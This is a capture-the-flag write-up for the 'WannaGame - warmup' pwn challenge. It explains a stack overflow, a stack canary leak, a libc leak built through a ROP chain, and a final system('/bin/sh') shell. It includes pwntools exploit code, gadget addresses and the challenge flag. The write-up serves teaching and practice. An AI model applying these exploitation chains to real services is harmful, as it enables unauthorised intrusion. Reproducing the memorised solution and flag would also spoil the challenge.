

# WannaGame - warmup

You can download challenge here: [warmup.zip](warmup.zip)

There are 3 files in zip:
- libc.so.6
- ld.so.6
- warmup

Download and extract and we can get started!

# 1. Find bug

First, let's decompile the file with IDA to see how the program works. There is just 1 function main():



Look at the result, we can see clearly that variable `n` is checked if it's valid or not so if we input a large n, we can write data out of the array and change the saved rip if we want. Next, let's check all the defences of the binary:

```bash
Canary                        : ✓
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

So the binary has no PIE but has canary. That's all we should know.

# 2. Idea

Because the program has canary, we will need to skip inputting when the buffer points to canary. It can be done by entering character `+` or `-` and we can pass it easily to change the saved rip to jump back to main again, meanwhile it print the sum of canary and saved rip out and because saved rip now is our chosen address so getting canary will be easy.

When we have canary, we will need to create our custom format string `%s` because after analyzing stack, there are no libc address on it, so we will want to do `printf("%s, printf@got)` to leak libc address out. After that, we can do a simple ROPchaining to get shell and get the flag.

Summary:
- Stage 1: Leak canary
- Stage 2: Create format string && leak libc address
- Stage 3: Get shell

# 3. Exploit

### Stage 1: Leak canary

We know that we can skip inputting canary but still need to input saved rip so we just want to enter the correct n so that it will print out the sum of canary and addresses we input. Due to stack alignment, we cannot jump directly to main but we can jump to another ret before jump to main. Our payload look like this:

```python
ret = 0x0000000000401362
payload = [
    ret,
    exe.sym['main']
]
```

After analyzing stack, we know canary is at 18th input so we have this code to leak the canary and jump again to main:

```python
ret = 0x0000000000401362
payload = [
    ret,
    exe.sym['main']
]

p.sendlineafter(b'Enter n: ', f'{19 + len(payload)}'.encode())
for i in range(17):
    p.sendlineafter(b': ', '0')
p.sendlineafter(b': ', b'+')        # canary
p.sendlineafter(b': ', b'0')        # saved rbp
for i in range(len(payload)):       # Saved rip
    p.sendlineafter(b': ', f'{payload[i]}'.encode())
canary = int(p.recvline()[:-1]) - ret - exe.sym['main']
log.info("Canary: " + hex(canary))
```

We got canary leaked:


### Stage 2: Create format string && leak libc address

Because program doesn't have string `%s` itself so we will use `scanf("%lu", &buf)` to input format string `%s` to buf and use that buf as format string for `printf(buf, printf@got)` so we have payload as following:

```python
pop_rdi = 0x00000000004013d3
pop_rsi_r15 = 0x00000000004013d1
str_lu = 0x402021
payload = [
    pop_rdi, str_lu,
    pop_rsi_r15, 0x00000000404a00, 0,
    exe.sym['__isoc99_scanf'],

    pop_rdi, 0x00000000404a00,
    pop_rsi_r15, exe.got['printf'], 0,
    exe.sym['printf'],
    
    ret,
    exe.sym['main']
]
```

We send this payload with this code:

```python
p.sendlineafter(b'Enter n: ', f'{19 + len(payload)}'.encode())
for i in range(17):
    p.sendlineafter(b': ', b'0')
p.sendlineafter(b': ', b'+')         # canary
p.sendlineafter(b': ', b'0')         # Saved rbp
for i in range(len(payload)):        # Saved rip
    p.sendlineafter(b': ', f'{payload[i]}'.encode())
```

Now we will wait a bit and enter the number corresponding to string `%s` and the printf address will be printed out:

```python
p.recvline()
p.sendline(str(u16(b'%s')).encode())
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - libc.sym['printf']
log.info("Libc base: " + hex(libc.address))
```


Nice! Let's get flag now!

### Stage 3: Get shell

Now we just need a simple ROP to get shell:

```python
payload = [
    ret,
    pop_rdi, next(libc.search(b'/bin/sh')),
    libc.sym['system'],
]
```

Then we send it:

```python
p.sendlineafter(b'Enter n: ', f'{19 + len(payload)}'.encode())
for i in range(17):
    p.sendlineafter(b': ', b'0')
p.sendlineafter(b': ', b'+')        # canary
p.sendlineafter(b': ', b'0')        # Saved rbp
for i in range(len(payload)):       # Saved rip
    p.sendlineafter(b': ', f'{payload[i]}'.encode())
```

Full script: [solve.py](solve.py)

# 4. Get flag


Flag is `W1{just_a_simple_bof_to_warm_yourself_up}`